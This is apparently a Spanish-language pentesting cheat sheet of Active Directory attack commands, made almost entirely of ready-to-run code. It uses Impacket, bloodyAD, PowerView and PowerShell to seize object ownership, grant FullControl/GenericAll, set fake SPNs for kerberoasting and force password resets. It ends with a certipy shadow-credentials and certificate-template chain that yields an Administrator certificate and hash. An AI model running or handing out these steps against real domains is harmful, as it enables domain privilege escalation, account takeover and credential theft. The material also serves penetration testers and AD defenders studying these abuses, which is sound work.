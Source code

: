 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal '{user}' -target 'ca_svc' '{domain name}'/'{user}':'{password}' -dc-ip 192.168.1.6

#### Validar el new owner

    ldapsearch -x -H ldap://<IP_O_SERVIDOR> -D "usuario@dominio.com" -w "contraseña" -b "DC=dominio,DC=com" "(distinguishedName=CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com)" nTSecurityDescriptor
### BloodyAD

#### Cambiar el owner

    bloodyAD --host {host name} -d {domain name} -u {user} -p {password} set owner {target} {user} 

#### Darse full rights

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-permission -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner" -p "GenericAll"

#### Validar ownership y GenericAll

    bloodyAD -u "example\admin" -p "Password123" -d example.local get-object-acl -t "CN=JohnDoe,OU=Users,DC=example,DC=local" | grep -E "(Owner|GenericAll)"
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'TARGET' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET" -PrincipalIdentity "sameer"
#### Validar el nuevo owner

    (Get-ObjectACL -Identity "CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -ResolveGUIDs).Owner
    
### AD powershell
    $user = Get-ADUser -Identity "TARGET" -Properties * 
    $acl = Get-ACL -Path "AD:\$($user.DistinguishedName)"
    $newOwner = (New-Object System.Security.Principal.NTAccount("Dominio\NuevoPropietario"))
    $acl.SetOwner($newOwner)
    Set-ACL -Path "AD:\$($user.DistinguishedName)" -AclObject $acl

#### Validar el nuevo owner

    $acl.Owner

#### Dar full rights
    Set-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -AclObject (Get-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local").AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule -ArgumentList (New-Object System.Security.Principal.NTAccount('Dominio\NuevoOwner')), "GenericAll", "Allow"))

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'TARGET' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "TARGET" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/Target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol ldap contoso.local/target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm

## Abuso de shadow account
Cuando hacemos una toma de un usuario podemos abusar de las credenciales del user. Con esto podemos extraer información como tikets para robar credenciales, incluso los del administrador.

#### 1) Crear una cache de tickets
generará un .ccache

    certipy-ad shadow auto -u {user}@{domain} -p '{pass}' -dc-ip {ip} -ns {ip} -target {ip} -account {user_owned}
#### 2) Ver privilegios del user
    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target {host name} -dc-ip {ip} -vulnerable -stdout

#### 3) Creamos un template de certificado
El template sale del output del anterior comando dentro de la etiqueta "Template Name"

    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target {host name} -dc-ip {ip}

#### 4) Generamos una request de un certificado usando los templates y hashes para adquirir datos de un user

El template sale de el paso 2, el ca(cerificate authoritie) sale de l paso 2 con la etiqueta "certificate authorities", el hash del paso 1

    certipy-ad req -u ca_svc -hashes {hash} -ca {CA} -target {host} -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@{domain} -ns {ip} -dns {ip} 

#### 5) dumpeamos el certificado generado

    certipy-ad auth -pfx {some.pfx} -dc-ip {ip}

Obtenemos el hash del user :D
